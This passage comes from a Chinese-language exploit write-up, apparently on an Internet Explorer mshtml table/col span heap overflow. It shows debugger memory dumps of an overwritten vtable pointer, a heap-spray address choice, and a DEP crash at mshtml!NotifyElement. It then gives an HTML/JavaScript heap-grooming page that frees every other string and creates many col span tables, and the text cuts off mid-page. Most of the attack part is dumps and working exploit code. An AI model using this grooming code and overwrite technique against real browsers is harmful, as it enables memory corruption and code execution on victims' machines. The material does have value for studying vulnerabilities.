03d23ca8 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
03d23cc4 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
03d23ce0 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
03d23cfc 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
03d23d18 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
03d23d34 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
03d23d50 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
03d23d6c 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
03d23d88 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
03d23da4 45 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  E...........................
03d23dc0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ............................
03d23ddc 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ............................
03d23df8 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ............................
03d23e14 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ............................
03d23e30 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ............................
03d23e4c 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ............................
03d23e68 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ............................
03d23e84 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ............................
03d23ea0 00 00 00 00 00 00 00 00 af 23 52 22 f9 46 07 08 98 ff 2c 00 b0 e4 d0 03 0e 00 00 00  .........#R".F....,.........
03d23ebc c0 d0 e0 f0 ac f0 36 1e 00 00 00 88 fa 00 00 00 41 00 41 00 41 00 41 00 41 00 41 00  ......6.........A.A.A.A.A.A.
03d23ed8 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.A.A.A.A.A.A.A.A.
03d23ef4 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.A.A.A.A.A.A.A.A.
03d23f10 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.A.A.A.A.A.A.A.A.
03d23f2c 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.A.A.A.A.A.A.A.A.
03d23f48 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.A.A.A.A.A.A.A.A.
03d23f64 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.A.A.A.A.A.A.A.A.
03d23f80 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.A.A.A.A.A.A.A.A.
03d23f9c 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.A.A.A.A.A.A.A.A.
03d23fb8 41 00 41 00 41 00 41 00 41 00 41 00 41 00 00 00 8d f0 36 1e 00 00 00 88 fa 00 00 00  A.A.A.A.A.A.A.....6.........
03d23fd4 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.B.B.B.B.B.B.
03d23ff0 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.B.B.B.B.B.B.
03d2400c 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.B.B.B.B.B.B.
03d24028 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.B.B.B.B.B.B.
03d24044 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.B.B.B.B.B.B.
03d24060 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.B.B.B.B.B.B.
03d2407c 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.B.B.B.B.B.B.
03d24098 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.B.B.B.B.B.B.
03d240b4 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 00 00  B.B.B.B.B.B.B.B.B.B.B.B.B...
03d240d0 6e ff 36 1e 00 00 00 8c(f8 84 77 68)e8 5f 25 00 78 3e 2b 00 90 86 77 68 01 00 00 00  n.6.......wh._%.x>+...wh....
```

溢出后的数据，我们重点观察虚表指针，发现覆盖的好像不是我们设置的值，难道这个值最大`0x7fffffff`？
```
03d23ca8 e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 00 00 00 00 45 00 45 00 41 00 45 00 48 fe ff 7f  ................E.E.A.E.H...
03d23cc4 e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 00 00 00 00 45 00 45 00 41 00 45 00 48 fe ff 7f  ................E.E.A.E.H...
03d23ce0 e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 00 00 00 00 45 00 45 00 41 00 45 00 48 fe ff 7f  ................E.E.A.E.H...
03d23cfc e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 00 00 00 00 45 00 45 00 41 00 45 00 48 fe ff 7f  ................E.E.A.E.H...
03d23d18 e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 00 00 00 00 45 00 45 00 41 00 45 00 48 fe ff 7f  ................E.E.A.E.H...
03d23d34 e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 00 00 00 00 45 00 45 00 41 00 45 00 48 fe ff 7f  ................E.E.A.E.H...
03d23d50 e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 00 00 00 00 45 00 45 00 41 00 45 00 48 fe ff 7f  ................E.E.A.E.H...
03d23d6c e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 00 00 00 00 45 00 45 00 41 00 45 00 48 fe ff 7f  ................E.E.A.E.H...
03d23d88 e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 00 00 00 00 45 00 45 00 41 00 45 00 48 fe ff 7f  ................E.E.A.E.H...
03d23da4 e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 00 00 00 00 00 00 00 00 00 00 00 00 48 fe ff 7f  ........................H...
03d23dc0 e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 00 00 00 00 00 00 00 00 00 00 00 00 48 fe ff 7f  ........................H...
03d23ddc e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 00 00 00 00 00 00 00 00 00 00 00 00 48 fe ff 7f  ........................H...
03d23df8 e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 00 00 00 00 00 00 00 00 00 00 00 00 48 fe ff 7f  ........................H...
03d23e14 e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 00 00 00 00 00 00 00 00 00 00 00 00 48 fe ff 7f  ........................H...
03d23e30 e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 00 00 00 00 00 00 00 00 00 00 00 00 48 fe ff 7f  ........................H...
03d23e4c e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 00 00 00 00 00 00 00 00 00 00 00 00 48 fe ff 7f  ........................H...
03d23e68 e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 00 00 00 00 00 00 00 00 00 00 00 00 48 fe ff 7f  ........................H...
03d23e84 e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 00 00 00 00 00 00 00 00 00 00 00 00 48 fe ff 7f  ........................H...
03d23ea0 e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 f9 46 07 08 98 ff 2c 00 b0 e4 d0 03 48 fe ff 7f  .............F....,.....H...
03d23ebc e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 fa 00 00 00 41 00 41 00 41 00 41 00 48 fe ff 7f  ................A.A.A.A.H...
03d23ed8 e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 41 00 41 00 41 00 41 00 41 00 41 00 48 fe ff 7f  ............A.A.A.A.A.A.H...
03d23ef4 e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 41 00 41 00 41 00 41 00 41 00 41 00 48 fe ff 7f  ............A.A.A.A.A.A.H...
03d23f10 e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 41 00 41 00 41 00 41 00 41 00 41 00 48 fe ff 7f  ............A.A.A.A.A.A.H...
03d23f2c e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 41 00 41 00 41 00 41 00 41 00 41 00 48 fe ff 7f  ............A.A.A.A.A.A.H...
03d23f48 e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 41 00 41 00 41 00 41 00 41 00 41 00 48 fe ff 7f  ............A.A.A.A.A.A.H...
03d23f64 e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 41 00 41 00 41 00 41 00 41 00 41 00 48 fe ff 7f  ............A.A.A.A.A.A.H...
03d23f80 e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 41 00 41 00 41 00 41 00 41 00 41 00 48 fe ff 7f  ............A.A.A.A.A.A.H...
03d23f9c e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 41 00 41 00 41 00 41 00 41 00 41 00 48 fe ff 7f  ............A.A.A.A.A.A.H...
03d23fb8 e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 41 00 00 00 8d f0 36 1e 00 00 00 88 48 fe ff 7f  ............A.....6.....H...
03d23fd4 e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 42 00 42 00 42 00 42 00 42 00 42 00 48 fe ff 7f  ............B.B.B.B.B.B.H...
03d23ff0 e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 42 00 42 00 42 00 42 00 42 00 42 00 48 fe ff 7f  ............B.B.B.B.B.B.H...
03d2400c e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 42 00 42 00 42 00 42 00 42 00 42 00 48 fe ff 7f  ............B.B.B.B.B.B.H...
03d24028 e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 42 00 42 00 42 00 42 00 42 00 42 00 48 fe ff 7f  ............B.B.B.B.B.B.H...
03d24044 e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 42 00 42 00 42 00 42 00 42 00 42 00 48 fe ff 7f  ............B.B.B.B.B.B.H...
03d24060 e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 42 00 42 00 42 00 42 00 42 00 42 00 48 fe ff 7f  ............B.B.B.B.B.B.H...
03d2407c e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 42 00 42 00 42 00 42 00 42 00 42 00 48 fe ff 7f  ............B.B.B.B.B.B.H...
03d24098 e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 42 00 42 00 42 00 42 00 42 00 42 00 48 fe ff 7f  ............B.B.B.B.B.B.H...
03d240b4 e4 ff ff 07 e4 ff ff 07 e4 ff ff 07 42 00 42 00 42 00 42 00 42 00 42 00 48 fe ff 7f  ............B.B.B.B.B.B.H...
03d240d0 e4 ff ff 07 e4 ff ff 07(e4 ff ff 07)e8 5f 25 00 78 3e 2b 00 90 86 77 68 48 fe ff 7f  ............._%.x>+...whH...
```

再根据Seebug的一篇分析文章，我们采用堆喷的地址为`1278888 * 100 = 0x079f6da0`，这一次我们写进去了
```
02f0fdc8 a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 00 00 00 00 45 00 45 00 41 00 45 00 08 da f6 79  .m...m...m......E.E.A.E....y
02f0fde4 a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 00 00 00 00 45 00 45 00 41 00 45 00 08 da f6 79  .m...m...m......E.E.A.E....y
02f0fe00 a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 00 00 00 00 45 00 45 00 41 00 45 00 08 da f6 79  .m...m...m......E.E.A.E....y
02f0fe1c a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 00 00 00 00 45 00 45 00 41 00 45 00 08 da f6 79  .m...m...m......E.E.A.E....y
02f0fe38 a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 00 00 00 00 45 00 45 00 41 00 45 00 08 da f6 79  .m...m...m......E.E.A.E....y
02f0fe54 a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 00 00 00 00 45 00 45 00 41 00 45 00 08 da f6 79  .m...m...m......E.E.A.E....y
02f0fe70 a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 00 00 00 00 45 00 45 00 41 00 45 00 08 da f6 79  .m...m...m......E.E.A.E....y
02f0fe8c a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 00 00 00 00 45 00 45 00 41 00 45 00 08 da f6 79  .m...m...m......E.E.A.E....y
02f0fea8 a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 00 00 00 00 45 00 45 00 41 00 45 00 08 da f6 79  .m...m...m......E.E.A.E....y
02f0fec4 a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 00 00 00 00 00 00 00 00 00 00 00 00 08 da f6 79  .m...m...m.................y
02f0fee0 a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 00 00 00 00 00 00 00 00 00 00 00 00 08 da f6 79  .m...m...m.................y
02f0fefc a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 00 00 00 00 00 00 00 00 00 00 00 00 08 da f6 79  .m...m...m.................y
02f0ff18 a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 00 00 00 00 00 00 00 00 00 00 00 00 08 da f6 79  .m...m...m.................y
02f0ff34 a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 00 00 00 00 00 00 00 00 00 00 00 00 08 da f6 79  .m...m...m.................y
02f0ff50 a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 00 00 00 00 00 00 00 00 00 00 00 00 08 da f6 79  .m...m...m.................y
02f0ff6c a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 00 00 00 00 00 00 00 00 00 00 00 00 08 da f6 79  .m...m...m.................y
02f0ff88 a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 00 00 00 00 00 00 00 00 00 00 00 00 08 da f6 79  .m...m...m.................y
02f0ffa4 a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 00 00 00 00 00 00 00 00 00 00 00 00 08 da f6 79  .m...m...m.................y
02f0ffc0 a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 af 02 07 08 b8 48 6d 00 48 20 ea 02 08 da f6 79  .m...m...m.......Hm.H .....y
02f0ffdc a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 fa 00 00 00 41 00 41 00 41 00 41 00 08 da f6 79  .m...m...m......A.A.A.A....y
02f0fff8 a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 41 00 41 00 41 00 41 00 41 00 41 00 08 da f6 79  .m...m...m..A.A.A.A.A.A....y
02f10014 a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 41 00 41 00 41 00 41 00 41 00 41 00 08 da f6 79  .m...m...m..A.A.A.A.A.A....y
02f10030 a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 41 00 41 00 41 00 41 00 41 00 41 00 08 da f6 79  .m...m...m..A.A.A.A.A.A....y
02f1004c a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 41 00 41 00 41 00 41 00 41 00 41 00 08 da f6 79  .m...m...m..A.A.A.A.A.A....y
02f10068 a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 41 00 41 00 41 00 41 00 41 00 41 00 08 da f6 79  .m...m...m..A.A.A.A.A.A....y
02f10084 a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 41 00 41 00 41 00 41 00 41 00 41 00 08 da f6 79  .m...m...m..A.A.A.A.A.A....y
02f100a0 a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 41 00 41 00 41 00 41 00 41 00 41 00 08 da f6 79  .m...m...m..A.A.A.A.A.A....y
02f100bc a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 41 00 41 00 41 00 41 00 41 00 41 00 08 da f6 79  .m...m...m..A.A.A.A.A.A....y
02f100d8 a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 41 00 00 00 4c ee 48 41 00 00 00 88 08 da f6 79  .m...m...m..A...L.HA.......y
02f100f4 a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 42 00 42 00 42 00 42 00 42 00 42 00 08 da f6 79  .m...m...m..B.B.B.B.B.B....y
02f10110 a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 42 00 42 00 42 00 42 00 42 00 42 00 08 da f6 79  .m...m...m..B.B.B.B.B.B....y
02f1012c a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 42 00 42 00 42 00 42 00 42 00 42 00 08 da f6 79  .m...m...m..B.B.B.B.B.B....y
02f10148 a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 42 00 42 00 42 00 42 00 42 00 42 00 08 da f6 79  .m...m...m..B.B.B.B.B.B....y
02f10164 a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 42 00 42 00 42 00 42 00 42 00 42 00 08 da f6 79  .m...m...m..B.B.B.B.B.B....y
02f10180 a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 42 00 42 00 42 00 42 00 42 00 42 00 08 da f6 79  .m...m...m..B.B.B.B.B.B....y
02f1019c a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 42 00 42 00 42 00 42 00 42 00 42 00 08 da f6 79  .m...m...m..B.B.B.B.B.B....y
02f101b8 a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 42 00 42 00 42 00 42 00 42 00 42 00 08 da f6 79  .m...m...m..B.B.B.B.B.B....y
02f101d4 a0 6d 9f 07 a0 6d 9f 07 a0 6d 9f 07 42 00 42 00 42 00 42 00 42 00 42 00 08 da f6 79  .m...m...m..B.B.B.B.B.B....y
02f101f0 a0 6d 9f 07 a0 6d 9f 07(a0 6d 9f 07)60 7a 6b 00 c8 e2 eb 02 90 86 f8 65 08 da f6 79  .m...m...m..`zk........e...y
```

我们继续执行下去，访问不到`0x079f6da0 + 0x8`，报异常



我把调试信息贴出来，前面这一段就是说不可执行属性，也就是因为DEP的原因
```
0:007> g
(ec4.9bc): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=079f6da0 ebx=01000000 ecx=02f101f8 edx=00000041 esi=02229d00 edi=02ebe2c8
eip=65ffe664 esp=02229b3c ebp=02229b70 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010202
mshtml!NotifyElement+0x3e:
65ffe664 ff5008          call    dword ptr [eax+8]    ds:0023:079f6da8=????????
```

所以我们需要使用ROP来绕过DEP，直接选用师傅们的代码进行测试
```
<html>
<body>
    <div id="evil"></div>
    <script>
        var free = "EEEE";
        while (free.length < 480) free += free;
        var string1 = "AAAA";
        while (string1.length < 480) string1 += string1;
        var string2 = "BBBB";
        while (string2.length < 480) string2 += string2;
        var fr = new Array();
        var al = new Array();
        var div_container = document.getElementById("evil");
        div_container.style.cssText = "display:none";
        for (var i = 0; i < 500; i+=2) {
            fr[i] = free.substring(0, (0x100 - 6) / 2);
            al[i] = string1.substring(0, (0x100 - 6) / 2);
            al[i+1] = string2.substring(0, (0x100 - 6) / 2);
            var obj = document.createElement("button");
            div_container.appendChild(obj);
        }
        alert("1");
        for (var i = 200; i < 500; i += 2) {
            fr[i] = null;
            CollectGarbage();
        }
    </script>
        <table style="table-layout:fixed" ><col id="0" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="1" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="2" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="3" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="4" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="5" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="6" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="7" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="8" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="9" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="10" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="11" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="12" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="13" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="14" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="15" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="16" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="17" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="18" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="19" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="20" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="21" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="22" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="23" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="24" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="25" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="26" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="27" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="28" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="29" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="30" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="31" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="32" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="33" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="34" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="35" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="36" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="37" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="38" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="39" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="40" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="41" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="42" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="43" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="44" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="45" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="46" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="47" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="48" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="49" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="50" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="51" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="52" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="53" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="54" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="55" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="56" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="57" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="58" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="59" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="60" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="61" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="62" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="63" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="64" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="65" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="66" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="67" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="68" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="69" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="70" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="71" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="72" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="73" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="74" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="75" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="76" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="77" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="78" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="79" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="80" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="81" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="82" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="83" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="84" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="85" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="86" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="87" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="88" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="89" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="90" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="91" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="92" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="93" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="94" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="95" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="96" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="97" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="98" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="99" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="100" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="101" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="102" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="103" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="104" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="105" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="106" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="107" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="108" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="109" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="110" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="111" width="41" span="9" >&nbsp </col></table><table 